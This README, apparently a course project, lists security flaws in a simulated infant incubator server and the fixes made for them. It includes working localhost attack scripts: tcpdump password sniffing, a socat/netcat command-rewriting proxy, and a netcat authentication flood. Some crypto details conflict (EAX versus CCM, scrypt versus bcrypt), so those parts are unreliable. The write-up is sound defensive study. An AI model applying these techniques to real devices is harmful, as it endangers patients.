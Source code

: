 # Infant Incubator Simulator: Vulnerabilities Description

## Exposure of Logon Password and Token: Attack against Confidentiality

The socket sendto call within the ``authenticate`` function: ``s.sendto(b"AUTH %s" % pw, ("127.0.0.1", p))`` submits the password alongside the AUTH command in plaintext. This risk has not been mitigated as no means of encryption can be found at the transport (eg. TLS) or network (eg. IPSec) layers. Using this information, we craft a test case in which traffic captured by tcpdump on ports 23456 and 23457 from the loopback interface is parsed using awk and packets containing the plaintext password are writtened to ``discovered.txt``. An attacker may simply intercept the credentials submitted as part of the authentication process, attempt logon themselves, and then issue (potentially dangerous) commands to the server using a valid token conferred to them.

Or, an attacker may sniff the token over the wire after authentication has taken place and use it to issue unauthorized commands against the unwitting user. In fact, the plaintext token may also be used to conduct a denial-of-service attack if it is sniffed and submitted alongside a LOGOUT request to the server each time.

As part of layered security approach, we would likely isolate the server in a network segment such that it is reachable only by the workstations in the neonatal intensive care unit and reinforced by NAC (eg. MAC address whitelisting).

```
sudo tcpdump -i lo -nnX dst port '(23456 or 23457)' | awk '{ if (/!Q#E%T&U8i6y4r2/ || /AUTH/ || /.*0x0030:.*/) { print > "discovered.txt" } else { print > "not-found.txt" } }' &
sleep 30

if grep -q "!Q#E%T&U8i6y4r2" discovered.txt; then
    echo plaintext password found
else
    echo plaintext password not found
fi
```

The encryption scheme we have implemented harnesses the scrypt PBKDF and AES 128-bit in EAX mode of operation to ensure perfect forward secrecy and reduce the risk of key compromise. Replay attacks can be mitigated by invalidating (ie. randomizing) either (1) the client-generated nonce value used for AES encryption or (2) salt value needed to recover the session key in the scrypt function--we elected to override the latter. If the session key is discarded, decryption fails due to incorrect key length or results in some plaintext value which fails the MAC verification check.

### Before encryption-in-transit:

![alt text](https://github.com/kevinkenzhao/InfantIncubatorSimulator/blob/main/plaintext_traffic.PNG?raw=true)

### After encryption-in-transit:

![alt text](https://github.com/kevinkenzhao/InfantIncubatorSimulator/blob/main/encrypted_traffic.PNG?raw=true)

## Attacks against Integrity

### Modification of Commands

A client may issue a command alongside the token conferred upon them to the server, but since the command is neither encrypted nor checked for truthfulness, it may be seamlessly interchanged by an attacker without detection. Therefore, an innocuous command like: 

``s.sendto(b"%s;GET_TEMP" % tok, ("127.0.0.1", p))``

may arrive to the server as:

``([A-Za-z0-9]{16});UPDATE_TEMP``

We devised the following scenario in which a socat server proxies the connection between the user and SampleNetworkServer, rewriting the "GET_TEMP" command to "UPDATE_TEMP," and vice versa:

```
sudo apt-get install socat
kill -9 $(sudo lsof -t -i:23456)
kill -9 $(sudo lsof -t -i:5557)
sleep 3 #allot time for termination of above processes 

python3 SampleNetworkServer.py & #start server in the background
sleep 1
socat -u tcp-l:5557,fork system:./modify.sh | nc -u 127.0.0.1 23456 & #start socat with script that rewrites commands; modified commands are piped to port 23456
sleep 1
token="$(echo "AUTH !Q#E%T&U8i6y4r2w" | nc -w 3 -u 127.0.0.1 23456)" #terminate netcat after three seconds
echo "the token: ${token}"
sleep 1
echo "issuing UPDATE_TEMP command to server..."
UPDATE_CMD="${token};UPDATE_TEMP"
echo "full command: ${UPDATE_CMD}"
echo "${UPDATE_CMD}" | nc -w 3 127.0.0.1 5557
```
**modify.sh**
```
#!/bin/bash
read MESSAGE
if grep -q "UPDATE" <<< "$MESSAGE"
then
	var=$(echo "$MESSAGE" | awk '{ sub(/UPDATE/,"GET"); print }')
	echo $var
elif grep -q "GET" <<< "$MESSAGE"
then
	var=$(echo "$MESSAGE" | awk '{ sub(/GET/,"UDPATE"); print }')
	echo $var
else
	echo $MESSAGE
fi
```

The success of the attack rests on commands being transmitted in plaintext and the absence of a mechanism to verify that the intended command was not modified in-transit.

### Replay Attack

Although encryption and hashing may prevent an attacker from learning meaningful information from packet traffic or passing modified content as genuine, they do not prevent the replay of captured UDP traffic. To mitigate this attack vector, we incorporate a nonce value within each AES-CCM operation that overwritten with an arbitrary value just before the encrypted response is sent into the socket. Why? if the nonce is not overwritten before the response is released into the socket **and** no successive requests are made to the server before an attacker initiates a replay attack, the possibility exists that the fraudulent message passes as legitimate, and an unsolicited, encrypted response will be generated for the user.

Furthermore, a bcrypt PBKDF function is harnessed to generate session keys for each query-response (ie. exchange) 

## "So you think you have signed out...": Lack of Identity

The current prototype uses a password and 16-character psuedorandom token with character set (^[A-Za-z0-9]{16}$) for its authentication processes. However, it does not have means for managing the identity of those successful logon attempts. This is less of an issue if we assume that only one nurse at a hospital should monitor the incubator and know the password. However, nurses carry a myriad of responsibilities and work in shifts, thus multiple nurses would access the remote interface. Should any of the nurses commit an act of malevolence, the organization has the ability to attribute/account for the damages.

Therefore, the authentication scheme has been amended to require users to supply a non-generic username along with their password in the form: ``AUTH USERNAME PASSWORD``. Passwords will be digested with the X algorithm, and stored/retrieved from a ``.env`` file stored on the server and secured with root privileges. 

## Duplicate Tokens

Although there is an infinitesimal chance of distributing a token which already exists in the list ``tokens[]`` given the sample space of (26 capital letters + 26 lowercase letters + 10 digits)^16, there is no mechanism to prevent that situation from occurring. Therefore, a check for whether a psuedorandomly generated token exists in ``tokens[]`` before appending it to the list should be implemented--if it does, generate a new one.

```
while True:
    gen_token = ''.join(random.choice(string.ascii_uppercase + string.ascii_lowercase + string.digits) for _ in range(16))
    if gen_token not in self.tokens:
        break
self.tokens.append(gen_token) 
```

**The problem**

Eve intercepts an ``AUTH`` communication by Alice to the ``SampleNetworkServer`` and discovers the command ``AUTH !Q#E%T&U8i6y4r2w`` in the application layer of the captured packets. We assume that the packets are unencrypted. Using this information, we craft a test case which generates and submits a fast and continuous stream of authentication requests to ``SampleNetworkServer``. Performed at scale, this attack could lead to token exhaustion (if unique tokens in ``tokens[]`` is enforced), duplicate tokens in ``tokens[]``, or eventually, a program crash due to system resource exhaustion. _If duplicate tokens exist, a user that performs a LOGOUT operation using their token has not invalidated their token until they have perform the LOGOUT operations for the number of token occurences_.

```
#!/usr/bin/bash

while :
do
	echo "AUTH !Q#E%T&U8i6y4r2w" | nc -u 127.0.0.1 23456 &
	printf "\n"
	sleep 1
	pid=$!
	( kill -TERM $pid ) 2>&1
done
```

## Excess Functionality: addInfant()

## Session Expiry

Unless the SampleNetworkServer is restarted, all previously issued access tokens are valid until the user explicitly invalidates them by issuing the LOGOUT command along with their access token(s). However, a nurse may forget or refuse to log out of the system at the conclusion of their shift. This results in a lack of forward secrecy as an attacker who has learned of a token from _X_ days/months/years ago may leverage it indefinitely.

One approach to mitigate this issue is to perform a server-side check of a token submitted alongside a command to ascertain that the difference between CURRENT_TIME and TIME is less than or equal to the MAX_AGE (defined by the system designer). If this statement evaluates to true, the token in question is removed from self.tokens[] and the user is prompted to re-authenticate.

We have implemented a token validity check in the form of a conditional statement:
```
if time.time() - self.tokens[gen_token] > 43200:
    nonce, encrypted_msg, tag = self.AES_encrypt(session_key, b"Expired Token\n")
    full_msg = nonce + b" " + encrypted_msg + b" " + tag
    self.serverSocket.sendto(full_msg, addr)   
```

and re-implemented _self.tokens_ as a dictionary instead a list structure, allowing us to append randomly generated tokens as keys and update their corresponding values with the time of generation. By storing this additional value, we are able to perform validity checks on whether the token in question has exceeded the max age of 12 hours.
